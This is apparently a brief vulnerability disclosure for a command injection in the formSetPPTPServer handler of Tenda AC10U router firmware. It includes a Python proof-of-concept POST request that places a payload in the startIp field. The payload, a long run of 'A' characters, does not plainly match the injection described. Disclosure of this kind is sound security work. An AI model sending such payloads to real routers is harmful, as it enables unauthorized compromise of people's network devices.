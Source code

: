 # command injection

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a command injection in httpd/formSetPPTPServer

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](20.png)

get value from startIp ,then call sprintf, cause command injection

![](22.png)


## POC
```
url = "http://192.168.1.13/goform/formSetPPTPServer"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'startIp': payload})
``` 
